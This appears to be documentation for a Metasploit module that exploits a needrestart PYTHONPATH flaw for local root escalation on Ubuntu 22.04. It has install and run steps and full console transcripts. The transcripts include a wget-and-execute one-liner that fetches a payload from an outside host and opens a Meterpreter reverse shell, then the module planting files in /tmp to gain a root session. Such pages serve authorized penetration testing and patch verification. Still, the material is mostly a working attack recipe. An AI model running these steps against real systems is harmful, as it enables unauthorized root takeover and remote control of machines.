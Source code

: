 ## Vulnerable Application

Local attackers can execute arbitrary code as root by
tricking needrestart into running the Python interpreter with an
attacker-controlled PYTHONPATH environment variable.

Verified against Ubuntu 22.04 with needrestart 3.5-5ubuntu2.1

Exploitation against vulnerable needrestart versions on
Debian 12 and Fedora 39 were unsuccessful
however install and run instructions are listed below.

### Debian

Install: `apt-get install needrestart=3.6-4+deb12u1`

Binary location: `/usr/sbin/needrestart`

### Fedora 39

Install: `dnf install needrestart-3.6-9.fc39.noarch`

Binary location: `/usr/sbin/needrestart`

## Verification Steps

1. Install the application
2. Start msfconsole
3. Get an initial shell
4. Do: `use exploit/linux/local/ubuntu_needrestart_lpe`
5. Do: `set lhost <ip>`
6. Do: `set lport <port>`
7. Do: `set session <session>`
8. Do: `run`
9. You should get a root shell.

## Options

### ListenerTimeout

The maximum number of seconds to wait for session. Defaults to `90,000` which is 25hrs.

## Scenarios

### Ubuntu 22.04 with needrestart 3.5-5ubuntu2.1

Gain initial shell

```
msf > use exploit/multi/script/web_delivery
998
run[*] Using configured payload python/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set target 7
target => 7
msf exploit(multi/script/web_delivery) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(multi/script/web_delivery) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(multi/script/web_delivery) > set lport 4998
lport => 4998
msf exploit(multi/script/web_delivery) > set srvport 8998
srvport => 8998
msf exploit(multi/script/web_delivery) > run
[*] Exploit running as background job 0.
[*] Exploit completed, but no session was created.
msf exploit(multi/script/web_delivery) > 
[*] Started reverse TCP handler on 1.1.1.1:4998 
[*] Using URL: http://1.1.1.1:8998/dKtdkMS
[*] Server started.
[*] Run the following command on the target machine:
wget -qO Ejq8lHli --no-check-certificate http://1.1.1.1:8998/dKtdkMS; chmod +x Ejq8lHli; ./Ejq8lHli& disown
[*] 2.2.2.2   web_delivery - Delivering Payload (250 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] Meterpreter session 1 opened (1.1.1.1:4998 -> 2.2.2.2:52004) at 2024-11-22 12:07:55 -0500

msf exploit(multi/script/web_delivery) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: h00die
meterpreter > background
[*] Backgrounding session 1...
```

Priv Esc

```
msf exploit(multi/script/web_delivery) > use exploit/linux/local/ubuntu_needrestart_lpe
[*] No payload configured, defaulting to linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/ubuntu_needrestart_lpe) > set payload linux/x64/meterpreter/reverse_tcp
payload => linux/x64/meterpreter/reverse_tcp
msf exploit(linux/local/ubuntu_needrestart_lpe) > set lhost 1.1.1.1
lhost => 1.1.1.1
msf exploit(linux/local/ubuntu_needrestart_lpe) > set lport 4977
lport => 4977
msf exploit(linux/local/ubuntu_needrestart_lpe) > set session 1
session => 1
msf exploit(linux/local/ubuntu_needrestart_lpe) > set verbose true
verbose => true
msf exploit(linux/local/ubuntu_needrestart_lpe) > run

[*] Started reverse TCP handler on 1.1.1.1:4977 
[*] Running automatic check ("set AutoCheck false" to disable)

[+] The target appears to be vulnerable. Vulnerable needrestart version 3.5-5ubuntu2.1 detected on Ubuntu 22.04
[*] Writing '/tmp/.1K8Hy2tOtq' (250 bytes) ...
[*] Uploading payload: /tmp/.1K8Hy2tOtq
[*] Creating directory /tmp/importlib
[*] /tmp/importlib created
[*] Uploading c_stub: /tmp/importlib/__init__.so
[*] Uploading py_script: /tmp/.FzzlJ
[*] Launching exploit, and waiting for needrestart to run...
```

On the remote Ubuntu box run `sudo needrestart`

```
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 2.2.2.2
[*] chown: changing ownership of '/tmp/.1K8Hy2tOtq': Operation not permitted
[*] Error processing line 1 of /usr/lib/python3/dist-packages/zope.interface-5.4.0-nspkg.pth:
[*] 
[*]   Traceback (most recent call last):
[*]     File "/usr/lib/python3.10/site.py", line 192, in addpackage
[*]       exec(line)
[*]     File "<string>", line 1, in <module>
[*]   ImportError: dynamic module does not define module export function (PyInit_importlib)
[*] 
[*] Remainder of file ignored
[*] #########################
[*] 
[*] Dont mind the error message above
[*] 
[*] Waiting for needrestart to run...
[*] Payload owned by: root
[+] Deleted /tmp/.1K8Hy2tOtq
[+] Deleted /tmp/.FzzlJ
[+] Deleted /tmp/importlib
[*] Meterpreter session 2 opened (1.1.1.1:4977 -> 2.2.2.2:57644) at 2024-11-22 12:08:28 -0500

meterpreter > 
meterpreter > getuid
Server username: root
```
